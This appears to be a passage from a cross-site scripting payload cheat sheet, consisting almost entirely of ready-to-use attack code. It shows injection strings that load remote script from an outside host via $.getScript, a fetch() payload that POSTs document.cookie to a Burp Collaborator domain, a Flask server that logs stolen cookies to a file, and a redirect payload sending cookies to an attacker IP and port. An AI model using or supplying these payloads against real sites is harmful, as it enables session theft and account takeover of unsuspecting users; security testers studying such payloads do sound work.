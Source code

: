 Examples:

```
;}$(document).ready(function(){$.getScript(%27//thegetch.github.io/x%27)});x=function(){a=%27
```

```
&vulnfield=
thegetch%27);}});};$.getScript(%27//thegetch.github.io/x%27);x=function(){getDate(function(){x=function(){x=(%27
&otherfield=blah.....
```

```
&vulnfield=
*/%27];$.getScript(%27//thegetch.github.io/x%27);/*
&otherfield=blah.....	  	
```

### In json format:
```
"certificationVersion":"https://aerst.one/p/xss2.svg"
```

### Stealing Cookies 

Stored XSS to steal cookies (using Burp Collaborator):

```
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{method: 'POST',mode: 'no-cors',body:document.cookie});</script> 
```

Stored XSS to steal cookies (using Flask in Python):

```
from flask import Flask, request, redirect
from datetime import datetime

app = Flask(__name__)

@app.route('/')
def cookie():

    cookie = request.args.get('c')
    f = open("cookies.txt","a")
    f.write(cookie + ' ' + str(datetime.now()) + '\n')
    f.close()

    return redirect("http://answers/")

if __name__ == "__main__":
    app.run(host = '0.0.0.0', port=5000)
```

Payload to inject:
```
<script>document.location="http://YOUR_IP:PORT/cookie/" + document.cookie </script>
```

